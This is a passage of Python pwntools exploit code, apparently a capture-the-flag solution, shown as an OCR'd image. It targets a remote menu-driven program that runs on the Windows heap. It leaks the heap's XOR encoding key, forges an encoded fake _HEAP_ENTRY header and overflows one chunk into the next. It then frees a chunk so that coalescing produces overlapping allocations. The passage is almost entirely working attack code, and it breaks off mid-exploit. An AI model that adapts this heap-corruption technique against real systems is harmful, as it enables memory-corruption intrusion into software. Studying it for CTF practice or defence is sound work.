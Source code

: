 ```python
	sla("ID:", str(chunk_id))
	return hi.recvline().strip().split("Content: ")[-1]

def free(chunk_id):
	sla("Your choice: ", str(4))
	sla("ID:", str(chunk_id))

def open_file():
	sla("Your choice: ", str(5))
	sla("Your choice: ", str(1))
	sla("Your choice: ", str(3))

def read_file(chunk_id, size):
	sla("Your choice: ", str(5))
	sla("Your choice: ", str(2))
	sla("ID:", str(chunk_id))
 	sla("Size:", str(size))
	sla("Your choice: ", str(3))


def leak(cursor=0, disconn=True, leakLazy=False):
	global hi, sla
	context.log_level = "error"
	hi = remote(HOST, PORT)
	sla = hi.sendlineafter

	alloc(1, SIZE)
	edit(1, "A" * SIZE)
	try:
		heap_encod = u64(show(1)[SIZE:] + "\x00\x10") ^ 0x1000000d02010003
	except struct.error:
		log.info("_HEAP_ENTRY not leaked")
		return

	# log.info("_HEAP->Encoding = 0x%016x" % heap_encod)

	alloc(2, 0x268)
	alloc(3, 0x200)
	fake_entry = 0x10000027c80101c8 ^ heap_encod
	'''
	0x10000027c80101c8
	   +0x008 Size             : 0x1c8
	   +0x00a Flags            : 0x1 ''
	   +0x00b SmallTagIndex    : 0xc8 ''
	   +0x008 SubSegmentCode   : 0xc80101c8
	   +0x00c PreviousSize     : 0x27
	   +0x00e SegmentOffset    : 0 ''
	   +0x00e LFHFlags         : 0 ''
	   +0x00f UnusedBytes      : 0x10 ''
	'''

	# log.info("fake XOR'ed _HEAP_ENTRY = 0x%016x" % fake_entry)

	alloc(4, 0x1c80 -  # fake chunk size 
	         0x20   -  # sizeof(_HEAP_ENTRY) * 2
	         0x200     # orginal size of overwritten chunk
	) 
	open_file()
	read_file(2, 0x268)
	edit(2, "A" * 0x268 + p64(fake_entry)[:6], False)
	free(3)         # free coalesce mechanism also free'ing chunk 4
	alloc(3, 0x200) # set Flink and Blink at chunk 4

```